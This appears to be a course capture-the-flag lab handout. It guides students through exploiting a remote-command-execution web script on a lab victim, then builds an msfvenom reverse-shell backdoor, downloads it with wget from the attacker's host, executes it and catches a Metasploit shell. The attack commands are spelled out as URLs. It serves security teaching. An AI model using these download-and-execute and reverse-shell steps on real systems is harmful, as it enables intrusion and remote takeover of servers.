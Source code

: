 ```yaml
---
layout: editorial
---
```


# Web Shells CTF

## Web Shells

This will be in the form of a Capture the Flag based on everything you’ve learned so I’ll provide hints only.

### Preparation

Put your Kali workstation on your **WAN** segment. That is the only host you’ll need for this lab.

The Victim IP is: 10.0.16.97

### Starting the CTF

You’ll first scan the web server looking for vulnerable web applications. The program **nikto** is a well-known application scanner. It ONLY scans to see if the application is present. Keep in mind, that it will scan for known application filenames. You may have a custom script named: info.php but isn’t vulnerable. **Locate a tutorial showing how to perform a basic scan of a web server using nikto**. Remember to use the Victim IP above ONLY.

If a file shows up that is ‘vulnerable’ you’ll see something like “This might be interesting…” The filename aka “script” will be on the left of that line. Look for something like:

**OSVBD-1234: /filename.php**

The “/filename.php” is what you want to use for the rest of the CTF.

**NOTE: THE REAL SCRIPT IS NOT filename.php.**

When you find the script name, it is vulnerable to a remote command execution (RCE) attack. An RCE is dangerous because anyone on the internet (if the script or application is publicly accessible) can exploit it. Exploit means to take advantage of a weakness. A weakness is a system or application is called a vulnerability. Essentially, they can execute any command with the permission of the user they compromised. In this case, the web server user.

Open your firefox browser on Kali. Browse to the victim IP and add the script name. The vulnerability is taken advantage of by running:

[http://10.0.16.97/filename.php?cmd=ip](http://10.0.16.97/filename.php?cmd=ip) a

**NOTE: filename.php is NOT the real script name. It is the script found in the nikto scan**.

That will show the IP information for the victim server. It will look weird so right-click inside your browser and select “View Page Source.” See how pretty it is now?

Essentially, the victim server script is the same as you typing on the command line on your Kali system. The victim serve is running Linux and the script is allowing you to run any command that the web user can run. SEE THE PROBLEM?

### Create a backdoor

Use msfvenom to create a LINUX backdoor.

Find a tutorial that shows how to use msfvenom to create a Linux backdoor(also in the tutorial you’ll see: -f elf) as the type of the file to create. When you save the backdoor, be sure to name it with your first and last name so you can get your reward. For example, I would name the file: > duane.dunston.bin

**NOTE: Pay close attention to PAYLOAD used with msfvenom. The payload is the syntax after the “-p” command with msfvenom. IT IS IMPORTANT. If you used:**

**-p linux/x64/shell\_reverse\_tcp**

**then you will need that information for later.**

After you create the backdoor, copy the file to your web root on Kali and be sure your web server is started.

### Download the backdoor

**PLEASE DO NOT DELETE ANYONE’S BACKDOOR**

Back in Firefox, now that you can run arbitrary commands you will download the backdoor. In firefox, type (Below is all one line):

[http://10.0.16.97/filename.php?cmd=wget](http://10.0.16.97/filename.php?cmd=wget) http://YOUR\_KALI\_IP/first.lastname.bin -O /tmp/first.lastname.bin

**wget** is a commandline version of a web browser. It is for downloading files primarily. -O specifies the filename to save the downloaded into.

Check to see if the file was downloaded:

[http://10.0.16.97/filename.php?cmd=ls](http://10.0.16.97/filename.php?cmd=ls) -l /tmp/first.lastname.bin

### Make the backdoor executable:

[http://10.0.16.97/filename.php?cmd=chmod](http://10.0.16.97/filename.php?cmd=chmod) 755 /tmp/first.lastname.bin

Be sure that command worked:

[http://10.0.16.97/filename.php?cmd=ls](http://10.0.16.97/filename.php?cmd=ls) -l /tmp/first.lastname.bin

You’ll see in the output: **rwx-r-x-r-x**

Those ‘x’ bits mean the file is executable.

### Creating a Listener

Open a terminal and start metasploit

Create a listener:

1. Set the LHOST to your Kali IP
2. Set the PORT based on the msfvenom command
3. Set the PAYLOAD to the exact payload used in the msfvenom command.
4. Check that all your options are set correctly.
5. Run: exploit

### Switch back to your web browser

Type in the URL below to execute the backdoor:

[http://10.0.16.97/filename.php?cmd=/tmp/first.lastname.bin](http://10.0.16.97/filename.php?cmd=/tmp/first.lastname.bin)

Wait a few moments to see if the connection hangs, look at the tab and you’ll see a spinning circle. If you do not see it, then double-check all of your settings above. It is supposed to hang because it is being used to create a shell.

Look at your Kali terminal and see if you have a connection.

**NOTE: Linux will not give you a command prompt. It will be a blank screen, however, you can still type commands**

Run the command below within the same Metasploit window:

**ps -ef**

Which will list all running processes on the system. Look for your backdoor on the right of the screen. You’ll see it because it will have your first and last name.

Then to capture the flag, type:

**hostname**

and you should see “IM\_HACKED”

**SUBMISSION:**

Take a screenshot of the **ps** output and annotated your backdoor.\
Take a screenshot of the ‘hostname’ output and annotate it.

